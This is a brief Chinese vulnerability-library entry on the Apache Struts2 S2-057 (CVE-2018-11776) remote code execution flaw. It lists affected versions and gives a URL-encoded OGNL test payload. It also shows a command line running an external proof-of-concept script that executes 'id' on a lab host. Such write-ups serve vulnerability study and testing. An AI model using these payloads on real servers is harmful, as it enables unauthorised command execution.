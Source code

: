 ```yaml
---
title: 'Struts2-S2-057-远程代码执行漏洞(CVE-2018-11776)'
date: Mon, 05 Oct 2020 08:24:14 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 影响环境

Struts <= Struts 2.3.34, Struts 2.5.16

#### 利用

S2-057要求具备以下条件: action元素没有设置名称空间属性，或者使用了通配符 名称空间将由用户从uri传递并解析为OGNL表达式，最终导致远程代码执行漏洞。 Payload:

```
http://your-ip:8080/%24%7b%31%2b%31%7d/actionChain1.action 
```

![](Struts2%20S2-057%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2018-11776)/20200630143132425.png) 



可以看到算出了1+1=2的结果 参考POC ：https://github.com/Fnzer0/S2-057-poc
python 1.py -u http://192.168.111.129:8080/{{INJECTION_POINT}}/actionChain1.action -p S2-057-2 -c id --exp 

![](Struts2%20S2-057%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2018-11776)/2020063014315669.png) 

发现执行了id命令

